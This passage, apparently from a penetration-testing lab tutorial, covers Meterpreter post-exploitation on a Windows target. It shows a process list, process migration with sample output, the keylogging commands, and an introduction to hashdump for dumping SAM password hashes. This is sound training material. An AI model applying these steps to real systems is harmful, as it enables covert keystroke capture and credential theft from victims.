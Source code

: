 ```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 548   540   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 596   540   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   588   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   588   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   596   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```

#### Migrate

Migrating to another process will `help Meterpreter interact with it`. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a *keylogger*. Migrating to another process may also *help you to have a more stable Meterpreter session*.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716.

```bash
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >
```

Be careful; **you may lose your user privileges** if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

#### Hashdump

The hashdump command will *list the content of the SAM database*. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.
